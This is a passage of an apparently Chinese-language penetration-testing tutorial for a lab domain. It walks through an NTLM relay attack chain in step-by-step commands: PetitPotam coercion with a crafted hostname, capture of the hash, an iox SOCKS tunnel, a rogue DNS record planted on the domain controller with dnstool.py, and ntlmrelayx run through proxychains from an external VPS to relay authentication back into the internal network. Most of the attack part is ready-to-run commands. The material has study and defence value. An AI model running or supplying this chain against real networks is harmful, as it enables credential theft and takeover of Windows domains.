 ```
python PetitPotam.py -d luckytom.com -u domainuser01 -p User01!@# badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA 192.168.214.135
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElgJHQ5okYIjsexJU50BaIiaYm0p9N2rEGSKrlPIHNf3eFAY5STnVq5lQ/640?wx_fmt=png&from=appmsg "")  
  
  
5.   
监听主机接收到 Hash。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2ElwLTveyMHJ117rPAtehPUibkchbE2DibCKNGZMtAzOWTuwwBkWDMuZ6oQ/640?wx_fmt=png&from=appmsg "")  
  
二. 目标主机不出网  
  
这种情况需要在入口机器上搭建一层隧道来实现流量的转发。  
  
1.   
开启   
socks  
 代理并配置本地   
proxifier  
 。  
  
```
iox.exe proxy -l 8080
```  
  
  
2.   
向域控添加   
DNS 解析记录  
，此时需要将解析指向入口机器 IP   
192.168.214.130  
。  
  
```
python dnstool.py -u luckytom.com\domainuser01 -p User01!@# -r badtom1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 192.168.214.130 --action modify 192.168.214.134 --tcp＃ 这里必须加 --tcp 参数将 UDP 封装在 TCP中进行 DNS 查询
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/rA9dDxDOarTN8zeB3TxJOSGgf0Pad2El9ECSwYiaZtYHV24uWcSOibialo34w5EuXhJddAbBu4hHcOSBQajemE3cw/640?wx_fmt=png&from=appmsg "")  
  
  
3  
.  
   
在   
VPS  
 开启监听。如果是 Windows 主机，则使  
用  
--smb-port   
指定  
一个端口。  
  
注意这里需要使用   
proxychains  
 来运行   
ntlmrelayx.py  
 ，因为 VPS 接收到目标机器的验证请求之后需要通过   
iox  
 隧道将其反射回内网。具体原理可以参考上一篇文章。  
```
proxychains python3 ntlmrelayx.py -t 192.168.214.135 -smb2support
```  
  